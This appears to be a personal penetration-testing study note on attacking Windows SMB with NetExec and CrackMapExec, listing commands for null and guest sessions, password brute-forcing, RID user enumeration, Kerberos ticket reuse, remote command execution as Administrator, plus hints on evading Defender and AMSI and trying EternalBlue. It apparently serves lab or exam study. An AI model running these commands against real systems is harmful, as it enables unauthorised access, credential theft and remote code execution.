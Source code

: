 
if smb v1 - try eternal blue


nullsessions
`nxc smb 10.10.10.10`
`nxc smb 10.10.10.10 -u '' -p ''`

`nxc smb 10.10.10.10 -u 'guest' -p ''`
`nxc smb 10.10.11.222 -u 'guest' -p '' --shares`

brute force password
`nxc smb 10.10.10.10 -u 'sofia' -p 'password-file'`

enum usernames
`nxc smb 10.10.10.10 -u 'sofia' -p 'mypass1' --rid-brute`
(rid is the end of the sid)

The same but using Kerberos - Kerberos traffic is more common on the network (the default is NTLM)
`cme smb 10.10.10.10 -u 'sofia' -p 'mypass1'`
`cme smb 10.10.10.10 -u 'sofia' -p 'mypass1' -k`

--use-kcache uses existing Kerberos ticket
`cme smb 10.10.10.10 -u 'sofia' -p 'mypass1' --use-kcache`
get ticket by
`impacket-getTGT -dc-ip 10.10.10.10 domain.LOCAL/usename`
`export KRB5CCNAME= user.ccache`
mostly useful for golden.. tickets
`cme smb 10.10.10.10 -u 'Administrator' -p 'securepass2'`

Execute commands
-x uses cmd
-X uses ps
`cme smb 10.10.10.10 -u 'Administrator' -p 'securepass2' -x 'whoami'`
`cme smb 10.10.10.10 -u 'Administrator' -p 'securepass2' -X 'whoami'`

.cme/obfuscated_scripts
can make your own since fingerprinted - defender finds
custom amsi bypass on cme webbpage

or run ps with cmd lol
`cme smb 10.10.10.10 -u 'Administrator' -p 'securepass2' -x 'powershell.exe -c "GCI C:\"'`

continue from [[Al's stream on crackmapexec]]

check [[audrey]]
check [[../../TO SORT/win  hacking al]]

-M spider_plus
from kristiee